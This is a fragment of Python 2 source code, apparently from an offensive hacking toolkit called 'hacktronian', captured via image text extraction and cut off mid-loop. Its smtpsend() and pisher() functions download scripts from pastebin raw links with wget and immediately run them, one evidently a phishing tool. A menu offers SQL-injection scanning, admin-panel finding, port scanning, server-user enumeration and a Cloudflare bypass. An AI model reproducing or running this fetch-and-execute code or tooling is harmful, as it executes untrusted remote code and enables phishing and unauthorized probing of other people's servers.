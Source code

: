 
def smtpsend():
    os.system("wget http://pastebin.com/raw/Nz1GzWDS --output-document=smtp.py")
    clearScr()
    os.system("python smtp.py")


def pisher():
    os.system("wget http://pastebin.com/raw/DDVqWp4Z --output-document=pisher.py")
    clearScr()
    os.system("python pisher.py")


menuu = hacktronianlogo + """

   {1}--Get all websites
   {2}--Get joomla websites
   {3}--Get wordpress websites
   {4}--Control Panel Finder
   {5}--Zip Files Finder
   {6}--Upload File Finder
   {7}--Get server users
   {8}--SQli Scanner
   {9}--Ports Scan (range of ports)
   {10}-ports Scan (common ports)
   {11}-Get server Info
   {12}-Bypass Cloudflare

   {99}-Back To Main Menu
"""


def unique(seq):
    """
    get unique from list found it on stackoverflow
    """
    seen = set()
    return [seen.add(x) or x for x in seq if x not in seen]


def clearScr():
    """
    clear the screen in case of GNU/Linux or
    windows
    """
    if system() == 'Linux':
        os.system('clear')
    if system() == 'Windows':
        os.system('cls')


class Fscan:
    def __init__(self, serverip):
        self.serverip = serverip
        self.getSites(False)
        print menuu
        while True:
            choice = raw_input('hacktronian~# ')
            if choice == '1':
                self.getSites(True)
            elif choice == '2':
                self.getJoomla()
            elif choice == '3':
                self.getWordpress()
            elif choice == '4':
                self.findPanels()
            elif choice == '5':
                self.findZip()
            elif choice == '6':